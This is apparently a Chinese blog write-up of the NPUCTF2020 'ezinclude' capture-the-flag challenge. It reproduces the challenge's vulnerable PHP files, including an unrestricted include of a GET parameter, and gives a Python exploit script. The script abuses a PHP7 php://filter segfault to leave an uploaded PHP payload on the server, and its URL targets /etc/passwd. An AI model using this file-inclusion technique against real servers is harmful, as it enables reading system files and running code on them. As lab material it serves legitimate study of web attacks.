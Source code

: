 # 原创
：  [NPUCTF2020]ezinclude

# [NPUCTF2020]ezinclude

#### [NPUCTF2020]ezinclude

## 考点

> 
php7 segment fault特性、伪协议


## 思路

> 



<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210601113703822.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210601113633119.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210601113737155.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2021060111381359.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 



> 
访问文件


## Payload

> 
index.php


```
&lt;?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
        echo '&lt;script language="javascript" type="text/javascript"&gt;
           window.location.href="flflflflag.php";
        &lt;/script&gt;
';
}else{
        setcookie("Hash",md5($secret.$name),time()+3600000);
        echo "username/password error";
}
?&gt;
&lt;html&gt;
&lt;!--md5($secret.$name)===$pass --&gt;
&lt;/html&gt;

```

> 
flflflflag.php


```
&lt;html&gt;
&lt;head&gt;
&lt;script language="javascript" type="text/javascript"&gt;
           window.location.href="404.html";
&lt;/script&gt;
&lt;title&gt;this_is_not_fl4g_and_出题人_wants_girlfriend&lt;/title&gt;
&lt;/head&gt;
&lt;&gt;
&lt;body&gt;
&lt;?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
        die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?&gt;
&lt;/body&gt;
&lt;/html&gt;

```

> 
config.php


```
&lt;?php
$secret='%^$&amp;$#fffdflag_is_not_here_ha_ha';
?&gt;

```

> 
php7 segment fault特性利用脚本


```
import requests
from io import BytesIO
url="http://f325d633-efa0-4a8c-a61d-90fc70c9ea1d.node3.buuoj.cn/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"
payload="&lt;?php phpinfo();?&gt;"
files={
    "file":BytesIO(payload.encode())
}
r=requests.post(url=url,files=files,allow_redirects=False)

print(r.text)

```

